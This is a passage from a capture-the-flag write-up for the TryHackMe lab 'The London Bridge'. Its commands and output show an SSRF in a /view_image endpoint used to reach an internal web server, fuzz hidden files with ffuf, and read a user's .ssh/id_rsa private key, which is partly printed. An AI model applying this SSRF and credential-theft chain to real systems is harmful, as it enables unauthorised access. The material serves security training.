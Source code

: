 We discover a new open port i.e. port 80 listening on the target's internal IP address. Let's access this port. 
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://127.1:80"   
<HTML>
<body bgcolor="gray">
<SNIP>
</body>
</HTML>
```

The port is indeed accessible. We can now fuzz the web application to uncover hidden directories.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/The London Bridge]
└─$ ffuf -ic -c -u http://10.10.162.211:8080/view_image -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "www=http://127.1:80/FUZZ"  -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -fs 469
<SNIP>
.bash_history           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
.bash_logout            [Status: 200, Size: 220, Words: 35, Lines: 8, Duration: 215ms]
%3f/                    [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 215ms]
.cache/                 [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 218ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 265ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 268ms]
.env                    [Status: 200, Size: 533, Words: 22, Lines: 21, Duration: 163ms]
.local                  [Status: 200, Size: 414, Words: 19, Lines: 18, Duration: 176ms]
.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 131ms]
.selected_editor        [Status: 200, Size: 66, Words: 4, Lines: 3, Duration: 99ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 119ms]
.ssh/id_rsa             [Status: 200, Size: 1675, Words: 7, Lines: 28, Duration: 126ms]
.ssh/authorized_keys    [Status: 200, Size: 393, Words: 3, Lines: 2, Duration: 143ms]
localhost.old           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 101ms]
localhost.rdb           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 115ms]
localhost.sql           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 115ms]
localhost.rar           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 118ms]
localhost.sqlite        [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 111ms]
localhost.tag.gz        [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 105ms]
localhost.tar           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 106ms]
localhost.tar.bz2       [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 105ms]
localhost.tar.gz        [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 104ms]
localhost.tgz           [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 98ms]
localhost.zipu          [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 101ms]
templates/              [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 131ms]
uploads/                [Status: 200, Size: 722, Words: 25, Lines: 24, Duration: 166ms]
:: Progress: [2565/2565] :: Job [1/1] :: 176 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

We see uncover a lot of hidden directories. The presence of .profile, .bash_history, .bash_logout, and .bashrc files indicates that the web root's directory may be a local user's home directory. Our fuzzing uncovered two interesting files i.e. .ssh/id_rsa and .ssh/authorized_keys. Let's access these files.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
└─$ curl http://10.10.162.211:8080/view_image -X POST -d "www=http://127.1:80/.ssh/id_rsa"   
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAz1yFrg9FAZAI4R37aQWn/ePTk/MKfz2KQ+OE45KErguL34Yj
5Kc1VJjDTTNRmc+vNRZieC8EwelWgpwcKACa70Ke2q/7zRLWHh23OUxWiSAAORTe
<SNIP>
a7RMp/cXWZKdyRgFxQ7DQEorzWi5bLAyxXnMg0ghwWdf4nugQmaEG7t+OYUNsf7M
fDLzMA915WcODR6L0mWO0crAMbZQOkg1KlAiwQSQmuUpPqyAfq6x
-----END RSA PRIVATE KEY-----

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/The London Bridge/Misc File]
```